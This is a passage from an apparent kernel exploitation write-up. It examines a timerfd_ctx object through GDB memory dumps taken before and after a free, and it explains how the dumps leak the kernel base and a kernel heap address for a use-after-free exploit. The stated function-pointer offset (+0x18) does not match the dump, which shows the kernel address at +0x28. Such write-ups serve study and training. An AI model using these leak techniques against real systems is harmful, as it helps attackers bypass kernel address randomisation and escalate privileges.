 Because of the union, `alarm` and `hrtimer` are mutually exclusive during the lifetime of this struct, so only 1 can
exist at a time. I believe when first intialized, the struct is using `alarm`, but I can't decipher the actual struct at
all. Here's what it looks like in memory:

```
gef> x/32gx 0xffff888101dbde00
0xffff888101dbde00:     0xffff888101dbd400      0xffff888101dbd300
0xffff888101dbde10:     0xffff888100e63d28      0x000000027d06f6cc
0xffff888101dbde20:     0x000000027d06f6cc      0xffffffff81285cc0
0xffff888101dbde30:     0xffff88813bc1e240      0x0000000000000001
0xffff888101dbde40:     0x0000000000000000      0x0000000000000000
0xffff888101dbde50:     0x0000000000000000      0x0000000000000000
0xffff888101dbde60:     0x0000000000000000      0x0000000000000000
0xffff888101dbde70:     0x0000000000000000      0x000000003b9aca00
0xffff888101dbde80:     0x17c09f6bff3a44e6      0x0000000000000000
0xffff888101dbde90:     0xffff888101dbde90      0xffff888101dbde90
0xffff888101dbdea0:     0x0000000000000000      0x0000000000000000
0xffff888101dbdeb0:     0x0000000000000000      0x0000000000000000
0xffff888101dbdec0:     0x0000000000000000      0x0000000000000000
0xffff888101dbded0:     0x0000000000000000      0x0000000000000000
0xffff888101dbdee0:     0x0000000000000000      0x0000000000000000
0xffff888101dbdef0:     0x0000000000000000      0x0000000000000000
```

Anyway, without fully understanding the struct, we still can see that we can leak `kbase` from the function pointer at
`+0x18`, which is pretty useful. When we free the object, we get something like this:

```
gef> x/32gx 0xffff888101dbde00
0xffff888101dbde00:     0xffff888101dbde00      0xffff888101dbd800
0xffff888101dbde10:     0xffff888100e63d28      0x000000027d06f6cc
0xffff888101dbde20:     0x000000027d06f6cc      0xffffffff81285cc0
0xffff888101dbde30:     0xffff88813bc1e240      0x0000000000000001
0xffff888101dbde40:     0x0000000000000000      0x0000000000000000
0xffff888101dbde50:     0x0000000000000000      0x0000000000000000
0xffff888101dbde60:     0x0000000000000000      0x0000000000000000
0xffff888101dbde70:     0x0000000000000000      0x000000003b9aca00
0xffff888101dbde80:     0x17c09f6bff3a44e6      0x0000000000000000
0xffff888101dbde90:     0xffff888101dbde90      0xffff888101dbde90
0xffff888101dbdea0:     0x0000000000000000      0x0000000000000000
0xffff888101dbdeb0:     0x0000000000000000      0x0000000000000000
0xffff888101dbdec0:     0x0000000000000000      0x0000000000000000
0xffff888101dbded0:     0x0000000000000000      0x0000000000000000
0xffff888101dbdee0:     0x0000000000000000      0x0000000000000000
0xffff888101dbdef0:     0x0000000000000000      0x0000000000000000
```

We can see that `+0x00` now points to itself, which is an excellent kheap leak to determine the address of the
timerfd_ctx object! (why it does this, I have no idea)
